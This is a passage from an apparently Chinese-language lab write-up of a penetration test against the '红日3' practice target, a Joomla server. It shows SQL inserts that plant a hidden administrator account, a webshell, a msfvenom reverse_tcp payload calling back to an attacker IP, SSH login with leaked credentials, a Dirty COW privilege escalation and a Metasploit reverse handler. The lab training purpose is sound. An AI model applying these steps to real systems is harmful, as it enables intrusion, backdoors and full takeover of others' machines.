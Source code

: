 测试后发现能够直接intooutfile写shell,但是并没有可写的路径，试着朝tmp目录下写同样被拒绝

换条思路，生成一个新的用户

https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn通过官方的密码重置路线，我们利用sql语句写一个新用户

```sql
INSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```

并且根据官方描述，这个用户具有管理权限

![7](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\7.png)

如此便成功登录后台

![8](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\8.png)

选一个目录写入shell,直接蚁剑连接

![9](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\9.png)

执行命令发现返回数据不正常，有disable_function存在，尝试绕过disable_function,利用蚁剑的插件代理，很容易就能绕过

![10](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\10.png)

尝试上线msf,生成回连文件

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.111.128 LPORT=4444 -f elf > shell.elf
```

msf启动对应的模块端口进行监听，连接都被拒绝，无法上线，之后在目标机器的文件中找到了ssh连接的用户

/tmp/mysql下的test.txt中存在

```
adduser wwwuser
passwd wwwuser_123Aqx
```

利用ssh服务登录到目标机器

![11](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\11.png)

查看了机器的内核信息，发现处于脏牛提权的范围内，采用脏牛进行提权，上传脚本，编译并执行

![12](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\12.png)

成功提权，提权后即可将shell传回msf,分别执行

```
msf6 > handler -H 192.168.111.128 -P 4444 -p  linux/x64/shell/reverse_tcp -n msf_linux_bash
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.111.128:4444 
```
